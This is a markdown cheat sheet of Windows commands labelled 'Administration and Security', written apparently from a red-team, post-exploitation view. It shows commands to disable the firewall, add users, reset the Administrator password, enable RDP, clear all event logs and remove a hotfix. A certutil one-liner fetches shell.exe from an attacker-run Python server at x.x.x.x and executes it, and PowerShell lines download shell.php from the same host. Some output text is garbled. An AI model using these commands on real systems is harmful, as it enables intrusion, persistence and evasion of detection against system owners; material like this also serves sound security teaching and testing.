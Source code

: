 Windows Administration and Security
-----------------------------------


#RDP from Linux
rdesktop -u Administrator -p test1test! x.x.x.x
xfreerdp -f -u Administrator -p test1test! x.x.x.x

#Disable firewall win xp
C:\WINDOWS\system32>netsh firewall set opmode mode=DISABLE
netsh firewall set opmode mode=DISABLE
Ok.

#Disable firewall 10/8/7/server 2008/Vista
c:\windows\system32\inetsrv>netsh advfirewall set currentprofile state off
netsh advfirewall set currentprofile state off
Ok.

#Shows temporary storage location
C:\>echo %temp%
echo %temp%
C:\Windows\TEMP

#Python file hosting on Linux (Red Team)
#Save file in directory Shell.exe
sudo python2.7 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

#Windows (Blue team) to download the file from cmdline
#Downloads Shell.exe
#Saves shell.exe in %temp%
#Runs %temp%/shell.exe
C:\Users\Blue Team> certutil -urlcache -split -f http://x.x.x.x/shell.exe %temp%/shell.exe && %temp%/shell.exe

#List Windows running processes
C:\WINDOWS\system32>tasklist
tasklist

Image Name                   PID Session Name     Session#    Mem Usage
========================= ====== ================ ======== ============
System Idle Process            0 Console                 0         28 K
System                         4 Console                 0        236 K
smss.exe                     316 Console                 0        384 K

#Add a Windows user
C:\WINDOWS\system32>net user username userpassword /ADD
net user username userpassword /ADD
The command completed successfully.

#Add to domain
C:\WINDOWS\system32>net user username password /ADD /DOMAIN

#List Windows Users
C:\WINDOWS\system32>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
username                 Administrator            Guest                    
HelpAssistant            john                     SUPPORT_388945a0         
test                     

#Change Administrator password
c:\windows\system32>net user Administrator test1test!
net user Administrator test
The command completed successfully.

#List Windows local user directories
C:\WINDOWS\system32>dir /b "C:\Users"      
dir /b "C:\Users"
add
Administrator
All Users
john

#Windows show Date
C:\WINDOWS\system32>date /t
date /t
ãîæ 31/10/2019 

#Windows show Time
C:\WINDOWS\system32>time /t
time /t
11:49 ææ

#Windows show uptime and system information
C:\WINDOWS\system32>systeminfo 
systeminfo 

#Windows write into a file
C:\WINDOWS\system32>echo test > test
echo test > test

#Windows read file contents
C:\WINDOWS\system32>type test
type test
test 

#Windows show current directory
c:\Users>echo %CD%
c:\Users>

#Windows show current role
c:\Users>whoami
whoami
nt authority\system

#NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs; these accounts have access to most system objects. 

#Windows List services
c:\windows\system32>net start
net start
These Windows services are started:

   Application Experience
   Application Host Helper Service
   Base Filtering Engine

#Stop/Start a Windows service
net stop <name>
net start <name>
net pause <name>
net continue <name>

#Enable RDP (Remote Desktop Protocol) via the registry in cmdline
c:\windows\system32>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully.

#Windows open a link using the default browser
c:\windows\system32>start "link" https://google.com

#Windows Powershell clear eventviewer logs
PS>wevtutil el | Foreach-Object {wevtutil cl "$_"}

#Windows remove a hotfix
C:\Users\Blue Team\Desktop>wusa.exe /uninstall /KB:3014442  
wusa.exe /uninstall /KB:3014442 


#Save shell.php in the directory you are running the python server on the Red Team host(Linux)
sudo python2.7 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

#Windows Powershell download a file
$client = new-object System.Net.WebClient
$client.DownloadFile("http://x.x.x.x/shell.php","c:\location\shell.php")
$client.DownloadFile("http://x.x.x.x/shell.php","shell.php")
